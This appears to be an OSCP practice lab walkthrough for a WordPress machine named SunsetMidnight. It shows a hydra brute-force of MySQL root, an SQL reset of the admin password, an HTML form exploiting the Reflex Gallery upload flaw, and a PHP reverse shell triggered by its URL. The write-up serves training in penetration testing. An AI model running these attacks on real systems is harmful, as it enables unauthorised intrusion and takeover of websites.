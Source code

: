 #### Enumeration

Browsing to port 80 HTTP service through IP address fails and it returns a domain name ```sunset-midnight```. We need to modify DNS settings first.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_13h44m48s_001.png)

We add a DNS rule in ```/etc/hosts``` file.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_13h49m45s_002.png)
 
Browsing to port 80 HTTP service again, and this time we see a webpage built with WordPress.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_13h54m51s_003.png)

The WordPress plugin we find is ```Simply Poll``` but its real version is 1.5, not 1.4.1 which has a vulnerability.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_15h06m07s_004.png)

After a lot of searching, I can't find the breakthrough of the WordPress website. So I move to port 3306 and try to brute-force database password.

I try to use the account ```wordpress``` but fail. [(*understanding max_connect_errors*)](https://www.virtual-dba.com/blog/mysql-max-connect-errors/)

```
hydra -l root -P ~/Documents/rockyou.txt -s 3306 -t 4 -f 192.168.128.88 mysql
```

Change the account to root to try and we successfully get the password.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_15h49m01s_005.png)

Browsing to WordPress database we We can change the password to ```admin123```.

```
UPDATE wp_users SET user_pass = MD5('admin123') WHERE ID = '1';
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_15h52m50s_006.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_15h53m03s_007.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_15h53m26s_008.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_15h54m55s_009.png)

Logging in to WordPress dashboard. We can [upload and activate a malicious plugin](https://book.hacktricks.xyz/pentesting/pentesting-web/wordpress#uploading-and-activating-malicious-plugin).

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_16h10m32s_010.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_16h11m44s_011.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_16h13m11s_012.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_16h13m34s_013.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_16h18m32s_014.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_16h22m38s_015.png)

According to the [exploit](https://www.exploit-db.com/exploits/36374) instructions we create an html file for uploading.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_16h23m25s_016.png)

```html
<form method="POST" action="http://sunset-midnight/wp-content/plugins/reflex-gallery/admin/scripts/FileUploader/php.php?Year=2022&Month=02" enctype="multipart/form-data" >
    <input type="file" name="qqfile"><br>
    <input type="submit" name="Submit" value="Pwn!">
</form>
```
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_16h24m19s_017.png)

Now let's prepare a php file with the reverse shell command.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_16h29m08s_018.png)

Use firefox to open our test.html file and upload the php malicious file.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_16h32m46s_019.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_16h33m10s_020.png)

Start listening to 80 port and browse to the address indicated by the vulnerability.

```
http://sunset-midnight/wp-content/uploads/2022/02/php-reverse-shell.php
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_16h34m54s_021.png)

